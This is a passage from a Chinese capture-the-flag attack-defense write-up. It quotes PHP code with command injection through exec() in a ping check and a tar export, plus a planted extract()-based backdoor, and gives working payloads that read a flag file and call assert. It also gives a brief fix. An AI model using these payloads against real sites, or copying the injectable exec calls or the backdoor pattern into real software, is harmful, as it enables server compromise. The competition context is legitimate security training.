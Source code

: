 ```php
if ($check == 'net') {
	$r = exec("ping -c 1 $host");
	...
	}
	
```

可以看到GET提交$check参数为"net",再POST提交host参数即可实现命令注入.

payload:`;cat /flag>/var/www/html/.config.php`



web2只发现了这几个漏洞,不过可以肯定存在其他漏洞,在比赛中后期,我们被频繁拿分,但后面有些手忙脚乱没有仔细翻流量.没有实现反打.

## web3

### 命令注入

位于`export.php`

```php
<?php
    if (isset($_POST['name'])){
    $name = $_POST['name'];
    exec("tar -cf backup/$name images/*.jpg");
    echo "<div class=\"alert alert-success\" role=\"alert\">
    导出成功,<a href='backup/$name'>点击下载</a></div>";
    }
?>
```

没有任何过滤,$name参数可控,导致命令注入.

payload: post name参数提交:`1.tar  /fla*;`

然后访问`site.com/backup/1.tar`

因为有其他队师傅在批量跑.因此我们就干脆搭顺风车,下载1.tar提交一下.

修复方案:

把name参数写死.

### extract后门

位于`\include\config.php`与`\app\includes\config.php`两处,一模一样的后门

```php
<?php 
echo 'hello world';
extract($_REQUEST);
@$d($_POST[c]);
?>
```

payload: post提交`d=assert&c=phpinfo()`
